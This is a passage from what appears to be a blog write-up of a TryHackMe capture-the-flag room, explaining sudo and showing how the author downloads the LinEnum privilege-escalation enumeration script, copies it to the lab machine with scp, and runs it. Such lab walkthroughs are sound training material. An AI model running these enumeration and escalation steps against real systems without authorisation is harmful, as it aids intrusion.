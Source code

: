 `sudo` (SuperUser DO) is a command that allows users to run commands as other users, typically as root. The "sudoers" file controls which users can use `sudo` and what commands they can run. The threatening message about reporting the incident is just a standard warning.

I tried to find out which users were in this "sudoers" file. I found several different commands on the internet, but they all showed me there weren't any. So in theory, I'd have to get access to root, the supreme system user with access to everything. _Writing this now seems kinda obvious, right? After all, we're looking for the "root.txt" file._

I then searched for how to escalate privileges on Linux and found [this article by Joseph Carson](https://delinea.com/blog/linux-privilege-escalation) that explains in great detail how Linux permissions work and some techniques, exploits, and tools to automate this process. The content is very rich and explains everything very well from start to finish. I recommend reading it.

The first tool Joseph listed was [LinEnum](https://github.com/rebootuser/LinEnum), a script that enumerates an extensive list of information and possible attack vectors on a machine. This article doesn't detail how to use the script, so I found [another post](https://null-byte.wonderhowto.com/how-to/use-linenum-identify-potential-privilege-escalation-vectors-0197225/) and basically, you just download the file to the victim machine, make the script executable, run it, and analyze the information.

LinEnum is an enumeration script that automatically gathers system information that might be useful for privilege escalation. It checks things like running processes, file permissions, installed software, network connections, and much more. It's like having a checklist of potential vulnerabilities that you can review systematically.

So that's what I did. I created a little folder to keep everything organized (after all, we're hackers, not rude people), and then downloaded the script using `wget`:

```sh
mkdir linenum
cd linenum
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

And that's how I discovered the machine doesn't have internet access. 😵‍💫 But that's okay, I used this command on my machine instead and then sent it to the victim using `scp`:

```sh
scp LinEnum.sh atena@10.10.204.9:~/linenum/
```

`scp` (Secure Copy) is a command that lets you securely transfer files between computers over SSH. It's basically like copying files, but across a network connection.

Going back to the victim machine, I marked the script as executable and ran it:

```sh
chmod +x ./LinEnum.sh
./LinEnum.sh
```

The `chmod +x` command makes a file executable. In Linux, files need explicit execute permissions to be run as programs or scripts.

After a few minutes, I got an extensive list full of system information and possible vulnerabilities:

<p align="center">
  <img src="/img/blog/tryhackme-couch/linenum.webp" style="height:310px" />
</p>
